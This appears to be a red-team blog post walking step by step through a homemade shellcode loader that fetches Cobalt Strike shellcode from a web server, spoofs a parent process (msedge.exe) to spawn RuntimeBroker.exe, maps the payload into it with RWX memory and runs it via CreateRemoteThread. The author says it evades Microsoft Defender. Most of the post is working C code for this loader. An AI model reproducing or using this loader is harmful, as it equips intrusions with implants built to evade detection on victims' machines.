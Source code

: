```yaml
---
layout: post
category: blog
---
```

# Adopted Maps: The PPID Spoofing Conundrum

hey its gerbsec back again with more heat. i've gotten into maldev as part of my red team journey that i have been documenting. specifically different techinques i can make my beacon hide better. for starters, we need to write our own loaders! this is where gerbload (name is in the works) comes in handy!

### what is gerbload?

[gerbload](https://github.com/gerbsec/MalDev/blob/main/README.md) is a shellcode loader i wrote that functions as a orphanage! essentially it'll pull your shellcode from a webserver, find a suitable parent for your orphan child process. match them up and inject your shellcode! this will spoof the current directory, the arguments, the parent and the process where our shellcode will reside! as of right now this bypasses defender (ok i get it, not a big deal). i have not tested against edr.

### lets walk through the code

#### download payload

the first part of the code involves downloading the payload from a url and storing. in this case i'm using cobaltstrike shellcode. i should add that i have artifact kit, process inject kit and sleep mask kit all enabled and customized ahead of time. (maybe i'll do some blog posts on those later?)

```c
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {
<SNIP>
}
```

this takes 3 arguments: the URL, a Size variable to store the size of the payload and a PBYTE variable to store the actual bytes of the shellcode. 

the usage utilizes wininet.h, its quite a simple request with not much opsec being considered here.
#### spoofing the ppid

now that we have the payload stored in memory, let's make room for it. first of all we need a parent process. we can use a lot of different processes but for our case i've used `msedge.exe` mainly because the odds of it running on a windows 10/11 machine is almost 100% nowadays. 

P.S. this only works on normal priv processes.

from there we'll utilize GetRemoteProcessHandle function that under the hood uses CreateToolhelp32Snapshot:
```c
BOOL GetRemoteProcessHandle(IN LPWSTR szProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess) {
<SNIP>
	// Takes a snapshot of the currently running processes 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}
	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("\n\t[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}
	<SNIP>
	 while (Process32Next(hSnapShot, &Proc));
```

we'll loop over the processes until we find msedge, from there we'll utilize it to create the process.

first we'll create the target process path:

```c
	// making the target process path
	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);

	// making the `lpCurrentDirectory` parameter in CreateProcessA
	sprintf(CurrentDir, "%s\\System32\\", WnDr);
```

from there we can specifiy the attributes to the process we're creating:
```c
	// this will fail with ERROR_INSUFFICIENT_BUFFER / 122
	InitializeProcThreadAttributeList(NULL, 1, NULL, &sThreadAttList);

	// allocating enough memory
	pThreadAttList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttList);
	if (pThreadAttList == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// calling InitializeProcThreadAttributeList again passing the right parameters
	if (!InitializeProcThreadAttributeList(pThreadAttList, 1, NULL, &sThreadAttList)) {
		printf("[!] InitializeProcThreadAttributeList Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!UpdateProcThreadAttribute(pThreadAttList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL)) {
		printf("[!] UpdateProcThreadAttribute Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// setting the `LPPROC_THREAD_ATTRIBUTE_LIST` element in `SiEx` to be equal to what was
	// created using `UpdateProcThreadAttribute` - that is the parent process
	SiEx.lpAttributeList = pThreadAttList;
```

finally we'll goahead and use CreateProcessA to create the process:
```c
	if (!CreateProcessA(
		NULL,
		lpPath,
		NULL,
		NULL,
		FALSE,
		EXTENDED_STARTUPINFO_PRESENT,
		NULL,
		CurrentDir,
		&SiEx.StartupInfo,
		&Pi)) {
		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}
```

at this point we should have a process that (in our case) is "Runtimebroker.exe -embedding" running under msedge.exe (lol). We successfully found a parent for our orphan! 

#### injecting the payload

now that we have a process running, we can inject our shellcode. we can do this many ways. if we wanted to use an early bird technique we just have to put the process we created in a suspended state. this could be done many ways, one way is to put it as a DEBUG_PROCESS state and the debugger is our current process. a slightly more simple and more opsec friendly way is to inject without the use of private memory. we'll do this using remote mapping injection. 

```c
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

	BOOL		bSTATE				= TRUE;
	HANDLE		hFile				= NULL;
	PVOID		pMapLocalAddress	= NULL,
				pMapRemoteAddress	= NULL;


	// create a file mapping handle with `RWX` memory permissions
	// this doesnt have to allocated `RWX` view of file unless it is specified in the MapViewOfFile/2 call  
	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// maps the view of the payload to the memory 
	// FILE_MAP_WRITE are the permissions of the file (payload) - 
	// since we only need to write (copy) the payload to it
	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
	if (pMapLocalAddress == NULL) {
		printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	
	memcpy(pMapLocalAddress, pPayload, sPayloadSize);

	// maps the payload to a new remote buffer (in the target process)
	// it is possible here to change the memory permissions to `RWX`
	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
	if (pMapRemoteAddress == NULL) {
		printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

_EndOfFunction:
	*ppAddress = pMapRemoteAddress;
	if (hFile)
		CloseHandle(hFile);
	return bSTATE;
}
```

here we create a filemapping with rwx, then we'll map the view of the payload to the memory with file_map_write permissions. Finally we'll use MapViewOfFile2 to maps the payload on the remote buffer and change its permissions to rwx. 

#### executing the shellcode

we're practically done now, all is left is to execute the shellcode in the process we have injected it, we can do this in many ways but for simplicity we can do this with CreateRemoteThread with the process and address:

```
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread == NULL)
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());

	return 0;
```

annnnndd we get our beacon!

![](assets/images/2024-07-31-adopted-maps-image-1.png)

as we also see the process its running as is RuntimeBroker, if we check process hacker we can see the parent process and current directory are set:

![](assets/images/2024-07-31-adopted-maps-image-2.png)

Finally the mandatory defender screenshot:

![](assets/images/2024-07-31-adopted-maps-image-3.png)

thats all i had today. i'm sure theres tons of typos and such, so i'll be sure to go back and edit this as i reread it....

best,
gerbsec